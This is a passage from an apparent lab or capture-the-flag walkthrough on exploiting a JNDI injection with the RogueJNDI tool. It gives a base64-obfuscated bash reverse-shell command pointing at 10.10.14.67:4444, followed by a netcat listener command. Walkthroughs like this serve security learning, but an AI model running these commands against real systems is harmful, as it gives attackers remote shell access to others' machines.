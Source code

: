 Now we will setup our RogueJNDI, serving our `base64` encoded string.

```shell
java -jar rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuNjcvNDQ0NCAwPiYxCg}|{base64,-d}|{bash,-i}" --hostname "10.10.14.67"
```

<p align="center"><img src="img/7_rogue-jndi.png" alt="Starting the Rogue JNDI"></img></p>

We start a `nc` listener.

```shell
❯ nc -nlvp 4444
listening on [any] 4444 ...
```

And send the malicious payload indicated by the instructions.

<p align="center"><img src="img/8_payload.png" alt="Inserting our custom payload"></img></p>
